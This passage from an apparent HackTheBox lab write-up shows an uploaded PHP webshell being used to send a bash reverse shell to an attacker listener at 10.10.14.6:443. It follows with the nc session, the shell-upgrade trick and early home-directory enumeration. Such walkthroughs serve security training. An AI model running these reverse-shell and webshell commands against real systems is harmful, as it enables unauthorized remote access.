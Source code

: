 Now I’ll add `?cmd=[command]` to the url, and it works:

![image-20230515163515872](https://0xdf.gitlab.io/img/image-20230515163515872.png)

I’ll start `nc` listening on 443 and send this [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in Firefox:

```
http://oxdf.microblog.htb/uploads/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

There’s a connection:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.213 41734
bash: cannot set terminal process group (609): Inappropriate ioctl for device
bash: no job control in this shell
www-data@format:~/microblog/oxdf/uploads$

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
www-data@format:~/microblog/oxdf/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@format:~/microblog/oxdf/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@format:~/microblog/oxdf/uploads$

```

## Shell as cooper

### Enumeration

#### Home Directories

There are two home directories on the box, `cooper` and `git`:

```
www-data@format:/home$ ls
cooper  git

```
